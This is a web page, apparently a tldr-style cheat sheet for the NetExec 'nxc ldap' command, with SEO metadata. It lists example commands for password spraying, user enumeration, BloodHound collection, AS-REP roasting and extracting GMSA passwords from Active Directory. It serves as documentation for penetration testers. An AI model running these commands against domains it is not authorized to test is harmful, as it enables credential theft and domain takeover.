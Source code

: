 ```yaml
---
title: "LDAP Exploitation - Control Active Directory | Free DevTools"
name: nxc-ldap
path: /freedevtools/tldr/nxc/nxc-ldap
canonical: "https://hexmos.com/freedevtools/tldr/nxc/nxc-ldap/"
description: "Control Active Directory via LDAP exploitation with nxc-ldap. Enumerate users, extract data, and attempt ASREPRoasting attacks. Free online tool, no registration required."
category: common
keywords:
- LDAP Active Directory exploitation
- Active Directory enumeration
- LDAP user extraction
- ASREPRoasting attack
- GMSA password extraction
- Windows domain pentesting
- Network exploitation command
- LDAP password cracking
- nxc exploitation tool
- Domain credentials search
features:
- Search for valid domain credentials using username/password lists.
- Enumerate active users within the Active Directory domain.
- Collect domain data and import it into BloodHound for analysis.
- Attempt ASREPRoasting attacks by collecting AS_REP messages.
- Extract passwords for group managed service accounts (GMSA).
ogImage: "https://hexmos.com/freedevtools/t/tool-banners/json-utilities-banner.png"
twitterImage: "https://hexmos.com/freedevtools/t/tool-banners/json-utilities-banner.png"
---
```


# nxc ldap

> Pentest and exploit Windows Active Directory Domains via LDAP.
> More information: <https://www.netexec.wiki/ldap-protocol>.

- Search for valid domain credentials by trying out every combination in the specified lists of usernames and passwords:

`nxc ldap {{192.168.178.2}} {{[-u|--username]}} {{path/to/usernames.txt}} {{[-p|--password]}} {{path/to/passwords.txt}}`

- Enumerate active domain users:

`nxc ldap {{192.168.178.2}} {{[-u|--username]}} {{username}} {{[-p|--password]}} {{password}} --active-users`

- Collect data about the targeted domain and automatically import these data into BloodHound:

`nxc ldap {{192.168.178.2}} {{[-u|--username]}} {{username}} {{[-p|--password]}} {{password}} --bloodhound {{[-c|--collection]}} {{All}}`

- Attempt to collect AS_REP messages for the specified user in order to perform an ASREPRoasting attack:

`nxc ldap {{192.168.178.2}} {{[-u|--username]}} {{username}} {{[-p|--password]}} '' --asreproast {{path/to/output.txt}}`

- Attempt to extract the passwords of group managed service accounts on the domain:

`nxc ldap {{192.168.178.2}} {{[-u|--username]}} {{username}} {{[-p|--password]}} {{password}} --gmsa`
